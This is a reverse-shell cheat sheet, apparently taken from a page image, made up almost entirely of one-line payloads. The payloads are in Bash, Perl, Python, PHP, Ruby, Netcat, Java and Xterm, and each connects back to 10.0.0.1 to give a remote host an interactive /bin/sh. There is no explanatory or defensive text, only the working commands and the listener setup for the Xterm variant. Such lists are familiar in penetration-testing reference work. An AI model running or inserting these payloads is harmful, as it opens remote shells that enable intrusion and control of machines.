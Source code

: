 ### Bash
```bash
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
```

### Perl
```perl
perl -e 'use Socket;$i="10.0.0.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP
```php
php -r '$sock=fsockopen("10.0.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat
```bash
nc -e /bin/sh 10.0.0.1 1234
```
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f
```

### Java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Xterm
Xterm will connect to you on port 6001.
```bash
xterm -display 10.0.0.1:1
```

To receive the shell on your host:
```bash
xhost +10.0.0.1
xnest :1
```
